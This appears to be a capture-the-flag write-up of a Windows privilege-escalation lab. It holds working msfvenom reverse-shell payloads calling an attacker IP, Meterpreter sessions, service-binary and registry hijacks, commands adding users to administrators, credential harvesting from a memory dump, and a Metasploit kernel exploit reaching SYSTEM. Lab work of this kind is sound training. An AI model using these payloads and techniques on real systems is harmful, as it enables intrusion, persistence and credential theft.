

# Windows Privesc Arena

```bash
rdesktop -u user -p password321 10.10.107.239:3389
```

## Registry Escalation

### Autorun 

#### Windows

```cmd
C:\Users\user>C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
```

#### Kali

```console
root@kali:~/thm/windowsprivescarena# msfvenom -p windows/meterpreter/reverse_tcp lhost=$(vpnip) -f exe -o program.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
root@kali:~/thm/windowsprivescarena# msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.35.147
LHOST => 10.11.35.147
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.35.147:4444 

```

#### Windows (again)

```cmd
C:\> copy \\10.11.35.147\kali\program.exe "C:\Program Files\Autorun Program"
```

- Logoff and then log back on as an administrator user.


#### Kali (again)

```
[*] Sending stage (175174 bytes) to 10.10.107.239
[*] Meterpreter session 1 opened (10.11.35.147:4444 -> 10.10.107.239:49234) at 2021-06-24 17:55:26 +0200

meterpreter > 
meterpreter > getuid
Server username: TCM-PC\TCM
```

### AlwaysInstallElevated 

#### Windows

```cmd
C:\Users\user>reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\Software\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\Users\user>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer                         
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```


#### Kali

```console
root@kali:~/thm/windowsprivescarena/www# msfvenom -p windows/meterpreter/reverse_tcp lhost=10.11.35.147 -f msi -o setup.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: setup.msi
```

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.35.147:4444 
```

#### Windows (again)

```cmd
C:\Users\user>copy \\10.11.35.147\kali\setup.msi C:\Temp
        1 file(s) copied.

C:\Users\user>msiexec /quiet /qn /i C:\Temp\setup.msi
```

#### Kali (again)

```
[*] Sending stage (175174 bytes) to 10.10.107.239
[*] Meterpreter session 2 opened (10.11.35.147:4444 -> 10.10.107.239:49253) at 2021-06-24 18:03:39 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

___

## Service Escalation

### Registry

#### Windows

- Using PowerShell:



- Using `accesschk.exe`:

```cmd
C:\Users\user>copy \\10.11.35.147\kali\accesschk.exe .                                
        1 file(s) copied.

C:\Users\user>accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc

HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS

C:\Users\user>copy C:\Users\User\Desktop\Tools\Source\windows_service.c \\10.11.35.147\kali\windows_service.c
        1 file(s) copied.
```

#### Kali

```bash
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

#### Windows (again)

```cmd
C:\Users\user>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f

The operation completed successfully.

C:\Users\user>sc start regsvc
sc start regsvc

SERVICE_NAME: regsvc 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2716
        FLAGS              : 

C:\Users\user>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
The command completed successfully.
```

### Executable Files

```cmd
C:\Users\user>accesschk.exe -wvu "C:\Program Files\File Permissions Service"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS

C:\Users\user> copy "c:\Program Files\File Permissions Service\filepermservice.exe" .
        1 file(s) copied.
C:\Users\user> copy /y shell.exe "c:\Program Files\File Permissions Service\filepermservice.exe
        1 file(s) copied.

C:\Users\user> sc start filepermsvc
 sc start filepermsvc
```

### binPath

```
C:\Users\user>accesschk.exe -wuvc daclsvc
accesschk.exe -wuvc daclsvc

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

daclsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW Everyone
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

#### Method 1 (reverse shell)

```cmd
C:\Users\user>sc config daclsvc binpath= "\"C:\Users\user\shell.exe""
[SC] ChangeServiceConfig SUCCESS

C:\Users\user>sc start daclsvc
```

#### Method 2 (add current user to admin group)

```cmd
C:\Users\user> sc config daclsvc binpath= "net localgroup administrators user /add"
[SC] ChangeServiceConfig SUCCESS

C:\Users\user>sc start daclsvc

C:\Users\user>net localgroup administrators
```

### DLL Hijacking

```
copy windows_dll.c \\10.11.35.147\kali
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
sc stop dllsvc & sc start dllsvc
```

### Unquoted Path


```
C:\Users\user>sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

C:\Users\user>.\accesschk.exe /accepteula -uwdq "C:"

C:\Users\user
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  RW TCM-PC\user

C:\Users\user>.\accesschk.exe /accepteula -uwdq "C:\Program Files"

C:\Program Files
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

C:\Users\user>.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"

C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

C:\Users\user>copy shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.

C:\Users\user>sc start unquotedsvc

```

___

## Startup applications

```cmd
C:\Users\user>icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup BUILTIN\Users:(F)
                                                             TCM-PC\TCM:(I)(OI)(CI)(DE,DC)
                                                             NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                                                             BUILTIN\Administrators:(I)(OI)(CI)(F)
                                                             BUILTIN\Users:(I)(OI)(CI)(RX)
                                                             Everyone:(I)(OI)(CI)(RX)

Successfully processed 1 files; Failed processing 0 files

C:\Users\user> copy shell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

- Logoff.
- Login with the administrator account credentials.

___

## Hot Potato

```powershell
C:\Users\user> powershell.exe -nop -ep bypass
PS C:\Users\user> Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
PS C:\Users\user> Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
PS C:\Users\user> net localgroup administrators
```

___

## Passwords

### Memory

#### Kali

```console
root@kali:~# msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use auxiliary/server/capture/http_basic
msf6 auxiliary(server/capture/http_basic) > set uripath x
uripath => x
msf6 auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 0.
msf6 auxiliary(server/capture/http_basic) > 
[*] Using URL: http://0.0.0.0:80/x
[*] Local IP: http://172.16.37.129:80/x
[*] Server started.

```

#### Windows

1.Open Internet Explorer and browse to: `http://[Kali VM IP Address]/x`
2.Open command prompt and type: `taskmgr`
3.In Windows Task Manager, right-click on the "iexplore.exe" in the "Image Name" column and select "Create Dump File" from the popup menu.
4. Copy the dump file to Kali:

```cmd
C:\Users\user>copy "C:\Users\user\AppData\Local\Temp\iexplore.DMP" \\10.11.35.147\kali\
        1 file(s) copied.
```

#### Kali (again)

```
strings iexplore.DMP | grep "Authorization: Basic"
```
___

## Kernel Exploits

```console
root@kali:~/thm/windowsprivescarena/www# msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.11.35.147 -f exe -o boum.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: boum.exe
root@kali:~/thm/windowsprivescarena# msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.35.147:4444 
[*] Sending stage (200262 bytes) to 10.10.107.239
[*] Meterpreter session 1 opened (10.11.35.147:4444 -> 10.10.107.239:49436) at 2021-06-24 20:02:45 +0200
[*] Sending stage (200262 bytes) to 10.10.107.239
[*] Meterpreter session 2 opened (10.11.35.147:4444 -> 10.10.107.239:49451) at 2021-06-24 20:11:07 +0200
meterpreter > 
Background session 1? [y/N]
msf6 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information           Connection
  --  ----  ----                     -----------           ----------
  1         meterpreter x86/windows  TCM-PC\TCM @ TCM-PC   10.11.35.147:4444 -> 10.10.107.239:49443 (10.10.107.239)
  2         meterpreter x64/windows  TCM-PC\user @ TCM-PC  10.11.35.147:4444 -> 10.10.107.239:49451 (10.10.107.239)
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > options 

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 2
SESSION => 2
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.107.239 - Collecting local exploits for x64/windows...
[*] 10.10.107.239 - 28 exploit checks are being tried...
[+] 10.10.107.239 - exploit/windows/local/always_install_elevated: The target is vulnerable.
[+] 10.10.107.239 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.107.239 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.107.239 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
[+] 10.10.107.239 - exploit/windows/local/cve_2020_1054_drawiconex_lpe: The target appears to be vulnerable.
[+] 10.10.107.239 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.107.239 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 10.10.107.239 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_014_wmi_recv_notif
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > set LPORT 5555
LPORT => 5555
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > set SESSION 2
SESSION => 2
msf6 exploit(windows/local/ms16_014_wmi_recv_notif) > run

[*] Started reverse TCP handler on 10.11.35.147:5555 
[*] Launching notepad to host the exploit...
[+] Process 3968 launched.
[*] Reflectively injecting the exploit DLL into 3968...
[*] Injecting exploit into 3968...
[*] Exploit injected. Injecting payload into 3968...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 10.10.107.239
[*] Meterpreter session 3 opened (10.11.35.147:5555 -> 10.10.107.239:49456) at 2021-06-24 20:14:54 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
